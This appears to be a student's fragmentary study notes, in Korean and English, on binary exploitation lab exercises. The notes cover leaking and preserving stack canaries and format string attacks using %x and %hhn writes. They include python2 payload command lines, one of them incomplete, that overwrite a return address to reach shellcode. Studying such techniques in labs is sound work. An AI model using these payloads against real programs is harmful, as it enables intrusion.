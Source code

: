 Formats11

Canary

vulfoo has canary

argc 갯수
argv 어레이로된 parameter

fread

부모 프로세스- 아들 프로세스
Format string

Format 11_32

**카나리 찾는법**
1. Printf 에서 %x.으로 메모리 주소 읽기
	objdump -d - 디스어셈블
	

%eax,-0x2c(%ebp) 
ebp-20

0x8049276

python2 -c "print 'a'*20 + '\x00\x53\x5c\x59' + 'a'*12 + 

카나리를 잘 덮었어야되

SHELL CODE로 리턴하기 >


tmpbuffer
	RET
		%x %x.... %n
			Override = 4 bytes
				1 byte = %hhn Higer 4 bytes are same just lower 4 bytes
			$hhn$nx$hhn
			![[Screenshot 2024-10-31 at 3.37.55 PM.png]]
				python2 -c "print '\x8c\xd6\xff\xff'+'\x8d\xd6\xff\xff' + '%08x.'*8 + '%hhhn%hhn'" | ./formatstring_formats5_3
				8 Bytes+ 9bytes
				=62bytes
		4,4,4,10,58x

1. 하나의 정수는 4바이트
2. 하나의 HEX는 1 바이트

